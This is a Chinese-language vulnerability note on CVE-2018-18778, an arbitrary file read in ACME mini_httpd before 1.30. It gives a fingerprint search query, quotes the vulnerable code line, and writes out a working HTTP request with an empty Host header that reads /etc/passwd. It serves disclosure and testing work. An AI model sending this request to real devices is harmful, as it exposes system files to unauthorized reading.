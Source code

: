 # ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

# ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

## 漏洞描述

漏洞原因是由于没有过滤Http包头的特定字段，导致可以构造访问系统文件的路径，从而导致可访问任意文件，攻击者可以利用该漏洞读取设备的任意文件，这将严重威胁采用Mini_httpd的设备的安全性。

## 漏洞影响

```
ACME mini_httpd before 1.30
```

## 网络测绘

```
app="ACME-mini_httpd"
```

## 漏洞复现

指纹信息

![](/images/202205251634254.png)

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的HOST/FILE文件。

当`HOST=example.com、FILE=index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。

当`HOST为空、FILE=etc/passwd`的时候，上述语句结果为`/etc/passwd`。

```
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

发送请求包, 置空 host

```
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: http://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

![](/images/202205251635832.png)

